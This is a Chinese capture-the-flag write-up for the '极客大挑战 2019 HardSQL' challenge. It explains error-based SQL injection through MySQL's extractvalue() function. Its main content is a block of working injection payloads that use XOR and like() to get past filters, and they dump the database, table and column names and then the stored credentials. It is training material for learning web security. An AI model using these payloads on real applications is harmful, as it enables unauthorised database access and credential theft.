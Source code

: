 # [极客大挑战 2019]HardSQL

## 知识点

`sql注入`

`报错注入`

## 解题

`extractvalue`

**extractvalue()**
extractvalue() :对XML文档进行查询的函数

语法：`extractvalue(目标xml文档，xml路径)`

第一个参数 :  第一个参数可以传入目标`xml文档`

第二个参数： `xml`中的位置是可操作的地方，`xml`文档中查找字符位置是用 `/xxx/xxx/xxx/…`这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。

正常查询 第二个参数的位置格式 为`/xxx/xx/xx/xx` ,即使查询不到也不会报错

tip: 还有要注意的地方是，它能够查询的字符串长度最大是32个字符，如果超过32位，我们就需要用函数来查询，比如`right()`,`left()`，`substr()`来截取字符串

再举个栗子：

`SELECT ExtractValue('<a><b><b/></a>', '/a/b');` 这个语句就是寻找前一段`xml文档`内容中的`a`节点下的`b`节点，这里如果`Xpath`格式语法书写错误的话，就会报错。这里就是利用这个特性来获得我们想要知道的内容。

利用`concat`函数将想要获得的数据库内容拼接到第二个参数中，报错时作为内容输出。

知道这些知识之后，我们开始注入吧

用`^`来连接函数，形成异或
这边用的是`extractvalue()`

```
爆数据库
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(database())),0x7e))%23
然后，我们再payload爆表名，但是这里把等于号给我们过滤了，不过我们还有骚操作like用法
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),0x7e))%23
爆字段
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e))%23
查数据
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e))%23
字符串较长 使用left() right() substr()
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(right(password,30)))from(H4rDsq1)),0x7e))%23
?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(left(password,30)))from(H4rDsq1)),0x7e))%23

or注入也可以
1'or(extractvalue(1,concat(0x7e,(select(database())),0x7e)))#
```

[参考](https://www.cnblogs.com/junlebao/p/13836583.html)